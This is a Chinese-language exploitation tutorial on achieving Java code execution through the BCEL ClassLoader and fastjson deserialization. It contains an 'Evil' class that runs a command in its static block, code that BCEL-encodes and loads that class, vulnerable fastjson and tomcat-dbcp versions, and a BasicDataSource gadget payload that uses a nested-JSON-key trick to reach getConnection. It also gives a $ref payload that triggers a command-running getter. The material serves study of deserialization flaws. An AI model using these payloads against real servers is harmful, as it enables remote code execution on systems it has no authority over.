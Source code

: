 # 0x01 What Is BCEL

BCEL(Byte Code Engineering Library)的全名是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。相较Commons Collections，BCEL被包含在原生JDK中，更容易被利用。

> BCEL Classloader在 JDK < 8u251之前是在rt.jar里面。
>
> 在Tomcat中也会存在相关的依赖
>
> tomcat7：org.apache.tomcat.dbcp.dbcp.BasicDataSource
>
> tomcat8+：org.apache.tomcat.dbcp.dbcp2.BasicDataSource
>

`com.sun.org.apache.bcel.internal.util.ClassLoader`重写了Java内置的`ClassLoader#loadClass()`方法，会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`。默认情况下外层还会加一层GZip压缩。

# 0x02 Best Practice

编写恶意类

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
}
```

测试：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        // Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}
```

* `Repository`用于将一个`Java Class`先转换成原生字节码（也可以用javac命令）

* `Utility`用于将原生的字节码转换成BCEL格式的字节码

# 0x03 BCEL + fastjson

fastjson网传的三条利用链如下：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

1. 常规的Java字节码的执行，但是需要开启`Feature.SupportNonPublicField`，较鸡肋
2. 利用JNDI注入，但需要服务器出网
3. 不用出网也不用开启`Feature.SupportNonPublicField`

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>8.5.45</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```

调用链`getConnection()->createDataSource()->createConnectionFactory()->createDriver()`

![image-20230125194234991](../.gitbook/assets/image-20230125194234991.png)

`Class.forName`第二个参数`initial`为true时，类加载后将会直接执行`static{}`块中的代码。

`driverClassLoader`和`driverClassName`都可以通过fastjson控制

> {    
>
> ​	{        
>
> ​		"aaa": {                
>
> ​			"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",                
>
> ​			"driverClassLoader": {                    
>
> ​				"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"                
>
> ​			},                
>
> ​			"driverClassName": "$$BCEL$$$l$8b$I$A$..."        
>
> ​		}    
>
> ​	}: "bbb" 
>
> }

![image-20230125194956235](../.gitbook/assets/image-20230125194956235.png)

实际上面的getConnection不满足fastjson对自动调用getter的要求

> 满足条件的getter
>
> * 函数名长度大于等于4
> * 非静态方法
> * 以get开头且第4个字母为大写
> * 无参数
> * 返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger

在`{"@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为bbb

将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法（因为key一定要是String类型）

而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。所以会调用到`getConnection`方法

![image-20230125201059313](../.gitbook/assets/image-20230125201059313.png)

> 当fastjson>=1.2.36的时候，可以使用`$ref`方式调用getter
>
> ref是fastjson特有的JSONPath语法，用来引用之前出现的对象
>
> ```java
> public class test {
>     private String cmd;
> 
>     public void setCmd(String cmd) {
>         System.out.println("seter call");
>         this.cmd = cmd;
>     }
> 
>     public String getCmd() throws IOException {
>         System.out.println("geter call");
>         Runtime.getRuntime().exec(cmd);
>         return cmd;
>     }
> }
> ```
>
> ```java
> public class ref_fastjson {
>     public static void main(String[] args) {
>         ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
>         String payload = "[{\"@type\":\"com.demo.fastjson.test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
>         JSON.parse(payload);
>     }
> }
> ```

